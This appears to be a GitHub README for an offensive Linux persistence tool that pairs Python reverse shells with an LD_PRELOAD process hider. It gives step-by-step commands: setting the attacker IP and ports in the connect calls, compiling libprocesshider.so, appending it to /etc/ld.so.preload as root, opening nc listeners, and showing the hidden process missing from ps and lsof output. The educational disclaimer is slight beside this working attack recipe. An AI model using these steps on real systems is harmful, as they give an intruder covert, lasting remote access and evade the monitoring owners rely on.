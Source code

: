 <h1 style="font-size:10vw" align="left">Linux Persistence Access </h1>
⚠️ *For educational and authorized security research purposes only*

## Original Exploit Authors
[@gianlucaborello](https://github.com/gianlucaborello), [@therealdreg](https://github.com/therealdreg)

## Exploit Description
This script is python based and is used to create a reverse shell of the victim machine. There are two scripts, the first one is used for a one-time reverse shell and the other for an infinite reverse shell with a loop mechanism every 2 seconds. And to improve defense evasion, we'll hide processes on Linux using the ld preloader.

## Demo
![Animation](https://github.com/asepsaepdin/libprocesshider/assets/122620685/5fde2a4d-355d-46cc-b211-08e9a352b83d)

## Step Guides
1. Establish a connection to victim's machine using SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh administrator@www.servint.org
```
2. Change s.connect(("**172.16.10.7**",**2220**)) in the shell.py file with the perpetrator's address for one-time reverse shell
3. Change sdregs.connect(("**172.16.10.7**",**9999**)) in the loop-shell.py with the perpetrator's address for infinite reverse shell
4. Make shell.py and loop-shell.py executable:
```
administrator@Server-01:/tmp/libprocesshider$ chmod +x shell.py
administrator@Server-01:/tmp/libprocesshider$ chmod +x loop-shell.py
```
5. Change static const char* process_to_filter = "**shell.py**"; in the processhider.c with the script you want to use
6. Then, compile the library:
```
administrator@Server-01:/tmp/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
administrator@Server-01:/tmp/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```
6. Then, Load it with the global dynamic linker
```
root@Server-01:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
7. Create new terminal on perpetrator's machine and run this command for connect with one-time reverse shell and this command for infinite reverse shell::
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2220
```
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9999
```
8. Run shell.py or loop-shell.py:
```
administrator@Server-01:/tmp/libprocesshider$ ./shell.py
administrator@Server-01:/tmp/libprocesshider$ ./loop-shell.py
```
9. And your process will be off the radar 
```
administrator@Server-01:/tmp/libprocesshider$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
```
```
administrator@Server-01:/tmp/libprocesshider$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
```

## Exploit Requirements
- python3
- gcc

## Credits
- https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/
- https://github.com/gianlucaborello/libprocesshider
- https://github.com/therealdreg/python_reverse_shell_detached_background
- https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/cd15b05d-822f-494d-939a-ae5a671222ff.xhtml
